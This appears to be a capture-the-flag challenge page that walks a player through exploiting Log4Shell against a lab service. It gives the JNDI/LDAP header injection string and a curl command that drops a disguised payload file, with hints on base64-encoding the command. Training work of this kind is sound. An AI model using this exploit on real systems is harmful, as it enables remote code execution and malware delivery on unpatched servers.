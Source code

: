 # Task 5: Drop It Like It’s Hot 🔥

## DESCRIPTION

Now that you’ve set up the malicious server, time to run the exploit.

To do this, you have to make a request to http://sudosingles-optimizer. But you’re going to include a specially crafted header to call back to your malicious LDAP server and execute a command.

In our case, the command will reach out to malicious url and drop a scary payload into the sudosingles-optimizer container.

## DETAILS

The malicious command we want to execute is:

curl PAYLOADDROPPERURL --output /srv/connectioncheck

Where PAYLOADDROPPERURL is the value found in FSSPayloadDropperUrl in the credential field below.

FSSPayloadDropperUrl is a special url that can be used to drop a ransomware payload. When the above command is executed in the container running sudosingles-optimizer, it will drop a nasty file in the /srv directory, disguised as something benign.

Just like before, we’ll make a request to our malicious LDAP server using curl on the attack machine. Open another Terminal Emulator window and run the following command:

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'

Where PAYLOAD is the malicious command that we crafted above and YOURIP is the attack machine’s private IP.

However, you’ll notice that if you just try to substitute the malicious command for PAYLOAD, then run the whole request to sudosingles-optimizer above, the exploit won’t work. Something is missing...

Maybe you need to encode PAYLOAD somehow? Hm...

When you believe you’ve successfully performed the exploit, click “Verify” to check your work.

## NOTES

No actual ransomware is involved in this challenge, so don’t worry. We’re just having fun here on Tech Day.

## SCORING

Verify -> PayloadCheckerLambda

## HINTS

### HINT 1

/Basic/Command/Base64 might be a hint! And the challenge said to encode... hmm.....

### HINT 2

You need to encode the malicious command as base64, and add it to the ldap url. For example: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/BASE_64_ENCODED_COMMAND}. If that isn’t working for you, triple-check to make sure that you have encoded the malicious command correctly.

### HINT 3

    Craft the malicious command: curl PAYLOADDROPPERURL --output /srv/connectioncheck

    Encode it as base64 using any tool. Base64encode.org is a great option.

    Replace it in the command: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'

    Execute
